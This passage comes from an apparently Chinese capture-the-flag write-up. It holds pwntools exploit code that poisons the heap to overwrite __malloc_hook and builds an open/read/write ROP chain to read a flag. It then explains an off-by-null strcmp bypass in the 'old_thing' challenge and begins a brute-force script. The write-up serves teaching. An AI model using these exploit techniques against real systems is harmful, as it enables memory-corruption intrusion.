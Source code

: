 ```
add(0x10,'a'*0x10)#8
free(8)
edit(7,'a'*0x20+p64(0)+p64(0x21)+p64(libc_base+libc.sym["__malloc_hook"]))


add(0x10,'a'*0x10)#9


pop_rdi = libc_base+0x215bf
pop_rsi = libc_base+0x23eea
pop_rdx = libc_base+0x1b96
pop_rax = libc_base+0x43ae8
syscall = libc_base+0x13c0

gadget = libc_base+0xe0c4d #0x38

#open(flag_addr,0)
rop_chains = p64(pop_rdi)+p64(flag_addr)
rop_chains+= p64(pop_rsi)+p64(0)
rop_chains+= p64(pop_rax)+p64(2)
rop_chains+= p64(libc_base+libc.sym["open"])
#read(3,flag_addr,0x30)
rop_chains+= p64(pop_rdi)+p64(3)
rop_chains+= p64(pop_rsi)+p64(flag_addr)
rop_chains+= p64(pop_rdx)+p64(0x30)
rop_chains+= p64(pop_rax)+p64(0)
rop_chains+= p64(libc_base+libc.sym["read"])
#write(1,flag_addr,0x30)
rop_chains+= p64(pop_rdi)+p64(1)
rop_chains+= p64(pop_rsi)+p64(flag_addr)
rop_chains+= p64(pop_rdx)+p64(0x30)
rop_chains+= p64(pop_rax)+p64(1)
rop_chains+= p64(libc_base+libc.sym["write"])

add(0x10,p64(gadget))#7   malloc hook

#add(0x100,"a"*0x100)
add(0x400,rop_chains)


p.interactive()
```

### <a class="reference-link" name="old_thing"></a>old_thing

程序需要输入密码，加密后和一字符串s2比较，相同便可进入，而且给了后门，所以只需要login进去，就可以轻松getshell。在输入密码read的地方发现off by null，而且输入的s和比对的字符串s2在栈里物理相邻，所以输入0x20长度的密码，就可以截断s2，并且如果输入的s加密后最低位也为00的话，则可以绕过strcmp，成功login。

直接随机生成字符串进行爆破，下面是爆破脚本

```
from pwn import * 
from LibcSearcher import *
import hashlib
context(os='linux',arch='amd64',log_level='debug')

#ms = remote("node3.buuoj.cn",25543)

elf = ELF("./canary3")

def generate_char_id():
    m2 = hashlib.md5()
    m2.update(str(time.time()).encode('utf-8'))
```